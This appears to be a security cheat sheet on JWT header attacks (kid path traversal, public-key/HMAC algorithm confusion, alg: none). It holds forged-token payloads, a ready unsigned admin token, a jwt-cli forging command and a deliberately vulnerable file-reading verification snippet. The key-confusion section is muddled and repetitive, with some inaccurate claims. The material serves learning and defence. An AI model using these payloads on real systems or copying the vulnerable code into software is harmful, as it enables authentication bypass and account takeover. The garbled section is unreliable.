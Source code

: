 # 🔐 JWT Header Injection & `kid` Manipulation Exploits

JWT (JSON Web Tokens) are used for stateless authentication. Poor validation of headers like `alg` and `kid` can result in **critical bypasses** and **privilege escalation**.

---

## 🧠 Understanding `kid`

`kid` stands for **Key ID**. It’s used by the server to decide **which key** to use to verify a JWT.

Attackers can **manipulate this value** to:
- Point to arbitrary files
- Force the app to use attacker-controlled keys
- Trigger local file inclusion or path traversal

---

## ☠️ Common Exploits

### 🔸 1. `kid` File Path Injection (LFI or Confusion)

```json
{
  "alg": "HS256",
  "kid": "../../../../../etc/passwd"
}
```
Backend behavior (vulnerable):

```javascript
const keyPath = `keys/${header.kid}`;
const keyContent = fs.readFileSync(keyPath);
const key = fs.readFileSync(`keys/${header.kid}.pem`);
jwt.verify(token, key);
```

🔁 If file content is read as HMAC key — attacker can use predictable file contents as signing material.

🔸 2. Public Key ➝ HMAC Confusion Attack
This is key confusion between asymmetric (RS256) and symmetric (HS256) algorithms.

Steps:
Get server’s public key (via .well-known/jwks.json, etc).
Forge a JWT with the following header:
```json
{
  "alg": "HS256",
  "kid": "<server_public_key>"
}
```
Generate a JWT with the manipulated header.
Send the forged token to the server.
🔁 Server reads the public key from disk (`keys/public.pem`) and tries to verify the token.
🔁 Since the public key is treated as an HMAC secret, it gets hashed before being used.
🔁 The hash matches the expected HMAC digest, so the server accepts the token.
Modify header:

```json
{
  "alg": "HS256",
  "kid": "public.pem"
}
```
Use the public key as the HMAC secret to sign a token.
Send the forged token to the server.
🔁 Server verifies token with public key (asymmetric) but treats it as an HMAC (symmetric) key.
Server accepts it (believing it's valid).
🔁 Server believes the token was signed correctly because it matches the public key.
🔁 The server thinks the token is valid even though it wasn't signed properly.
🔁 This allows attackers to impersonate users or gain unauthorized access.
🧨 Now you're authenticated as any user — including admin.
🔸 3. alg: none Attack
JWT header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```
No signature is added. If the server skips validation for alg: none, attacker can forge any payload.
Result: Admin access without knowing the secret or key.

🧪 Example Payloads
1. Unsigned Token (alg: none)
```json
eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```
2. Tampered HS256 Token with LFI kid
```json
{
  "alg": "HS256",
  "kid": "../../../dev/null"
}
```
Sign using:
```javascript
// Using jwt-cli tool
jwt encode --alg HS256 --secret "$(cat /dev/null)" '{"user":"admin"}'
```

### 🛡️ Defenses
❌ Do not allow alg: none — ever.

✅ Enforce algorithm types on server (e.g., only RS256).

🧱 Never allow file paths in kid.

🔐 Use robust libraries (PyJWT, jsonwebtoken) with strict settings.

✋ Reject tokens with unknown or untrusted kid.

### 🛠 Tools to Practice

jwt_tool.py
AuthAnalyzer
jwt.io
Postman with Bearer header injection
Burp Suite Repeater + Decoder

### 📌 Pro Tip
If the server uses a JWKS endpoint (/.well-known/jwks.json), try:
Swapping in your own public key with matching kid
Attacking the key rotation process
🔴 Impact: Full account takeover, privilege escalation, and unauthenticated admin access.


## What the script now demonstrates:
> ALG=none bypass - Creates unsigned tokens
> KID path traversal - LFI attempts via KID header manipulation
> Malicious KID payloads - SQL injection, XSS, and edge cases
> Token structure analysis - Decoding and header inspection
> Algorithm confusion attacks - RS256→HS256 vulnerability concept